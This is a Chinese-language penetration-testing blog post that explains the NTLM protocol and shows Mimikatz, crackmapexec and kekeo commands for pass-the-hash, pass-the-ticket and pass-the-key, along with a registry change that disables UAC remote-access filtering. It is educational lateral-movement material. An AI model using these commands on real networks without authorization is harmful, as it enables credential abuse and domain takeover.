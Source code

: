 ```yaml
---
title: "Mimikatz 哈希与票据传递"
date: 2019-07-16T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['mimikatz','domain']
categories: [' 内网渗透']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


NTLM 协议以及 Mimikatz 哈希与票据传递

<!--more-->

## NTLM 协议

A 想访问 B, 双方先确定协议版本(NTLM v1/NTLM v2).

A 向 B 发送用户名信息, B 接受到用户名后用该用户的 NTLM Hash 加密 Challenge (8位/16位随机数) 作为 Challenge1 (Net-NTLM v1 Hash/Net-NTLM v2 Hash), 之后将 Challenge 发送给 A.

A 使用登录账号的 NTLM Hash 加密 Challenge 作为 Response 发送给 B.

B 接收到 Response 将其与 Challenge1 进行比对, 一致则为认证通过.

## pth (Pass the Hash)

从 NTLM 协议可以知道, 主机间的访问其实跟明文密码是一点关系也没有的, 正常请求时输入的密码也会被加密成 NTLM Hash, 再生成 Net-NTLM Hash.

由此引申出一个手段, 叫做 `Pass the Hash`, 顾名思义, `pth` 通过目标主机的用户名和 Hash 来访问指定机器.

### mimikatz

```
sekurlsa::pth /user:administrator /ntlm:aa5c294fbb6f8b8ae6223ba08805894e /domain:WIN7
```

```
psexec \\WIN7 whoami
```

### crackmapexec

```
crackmapexec WIN7 -u administrator -H aa5c294fbb6f8b8ae6223ba08805894e -d WIN7 -x whoami
```

### UAC

注意 windows 2008 及以上系统在默认情况下开启 UAC 策略, 不允许 administrator 以外的其它本地管理员用户访问远程资源.

可通过更改注册表关闭 UAC 策略.

域内用户不受此限制.

```
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```

另有更多工具, 在此不再赘述.

## ptt (Pass the Ticket)

ptt 多用于 Kerberos 协议中, 即域环境内. 例如 Golden Ticket, Silver Ticket 以及 ms14-068 都通过 ptt 方式来提升权限.

ptt 相较于 pth 的好处是它无须本地管理员权限, 默认在 mimikatz 中进行 `sekurlsa::pth` 时须将其以管理员权限运行. 但 ptt 只能用于域环境内, 而 pth 在工作组和域内都可以使用.

ptt 的原理类似于 Golden Ticket, 它通过指定账户的用户名和 Hash 来生成一份高权限的 TGT 以请求不同的 TGS Ticket 来达到访问域内资源的目的.

通过 keko 生成 TGT.

```
tgt::ask /domain:test.com /user:administrator /ntlm:aa5c294fbb6f8b8ae6223ba08805894e
```

通过 mimikatz 导入 TGT.

```
kerberos::ptt ticket.kirbi
```

## ptk (Pass the Key/Over Pass the Hash)

ptk 为什么没有说呢, 因为自己在本地测试的时候总是不成功. 这里仅给出示例代码.

```
sekurlsa::pth /user:test /domain:test.com /aes256:54069d7bc9b69fd1a86817bd887f6f4e84a3c858c46081e4b443ab07a52e9a69
```
